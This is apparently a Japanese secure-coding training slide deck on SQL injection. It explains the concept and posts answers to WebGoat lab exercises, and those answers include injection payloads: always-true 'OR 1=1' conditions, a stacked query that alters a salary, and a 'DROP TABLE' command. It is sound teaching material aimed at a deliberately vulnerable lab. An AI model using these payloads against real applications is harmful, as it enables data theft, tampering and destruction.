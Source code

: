 ```yaml
---
theme: gaia
_class: lead
paginate: true
backgroundColor: #fff
backgroundImage: url('https://marp.app/assets/hero-background.jpg')
marp: true
---
```


# SQLインジェクション

---

# SQLインジェクションとは？

> データベースと連携したウェブアプリケーションの多くは、利用者からの入力情報を基にSQL文（データベースへの命令文）を組み立てています。ここで、SQL文の組み立て方法に問題がある場合、攻撃によってデータベースの不正利用をまねく可能性があります。このような問題を「SQLインジェクションの脆弱性」と呼び、問題を悪用した攻撃を、「SQLインジェクション攻撃」と呼びます。

https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_1.html

---

## SQLとは？

SQLは標準化された（1986年のANSI、1987年のISO）プログラミング言語であり、リレーショナルデータベースを管理し、データベース内のデータに対してさまざまな操作を実行するために使用されます。

データベースはデータのコレクションです。 データは行、列、テーブルに編成され、関連情報を見つけやすくするためにインデックスが付けられています。

---

従業員を含むSQLテーブルの例。テーブルの名前は「employees」です。

userid | first_name | last_name | department | salary | auth_tan
-- | -- | -- | -- | -- | --
32147 | Paulina | Travers | Accounting | $46.000 | P45JSI
89762 | Tobi | Barnett | Development | $77.000 | TA9LL1
96134 | Bob | Franco | Marketing | $83.700 | LO9S2V
34477 | Abraham | Holman | Development | $50.000 | UU2ALK
37648 | John | Smith | Marketing | $64.350 | 3SL99A

SQLクエリを使用すると、データベーステーブルとそのインデックス構造を変更したり、データの行を追加、更新、削除したりできます。

---

## 課題1

例の表を見てください。従業員のBobFrancoの部門を取得してみてください。 この割り当てでは完全な管理者権限が付与されており、認証なしですべてのデータにアクセスできることに注意してください。

---

## 正解例

名前で検索するパターン

```sql
SELECT department FROM employees WHERE userid = 96134;
```

```sql
SELECT department FROM employees WHERE first_name = 'Bob' AND last_name = 'Franco';
```

---

# WebGoat SQL Injection (intro)

WebGoat SQL Injection (intro) 3,4,5番を問いていきましょう。
（ネットで検索すると答えが出てきてしまうのでなるべく見ないでやってみましょう）

http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson

---

答え

3

```sql
UPDATE employees SET department = 'Sales' WHERE userid = 89762;
```

4

```sql
ALTER TABLE employees ADD phone VARCHAR(20);
```

5

```sql
GRANT ALTER TABLE TO UnauthorizedUser;
```

---

# SQLインジェクションとは

* secure-coding-training `SQLインジェクション` を参照
https://github.com/takapi86/secure-coding-training/blob/master/doc/README.pdf

* SQLインジェクション　再現からコード修正まで
https://www.youtube.com/watch?v=iNFnNO3sb4k

---

## 課題2

# WebGoat SQL Injection (intro)

WebGoat SQL Injection (intro) 9〜13番を問いていきましょう。

---

### 正解例

9

`Smith'` `or '1' = '1`
`'` `or '1' = '1`

10

* Login_Count: `0`
* User_Id: `0 OR 1=1`

---

### 正解例

11

* `hoge`
* `' OR 'x' = 'x`

12

* Employee Name: `hoge`
* Authentication TAN:

```sql
'; UPDATE employees SET SALARY = 999999999 WHERE USERID = 37648 AND AUTH_TAN = '3SL99A
```

---

### 正解例

13

```sql
'; DROP TABLE access_log --
```
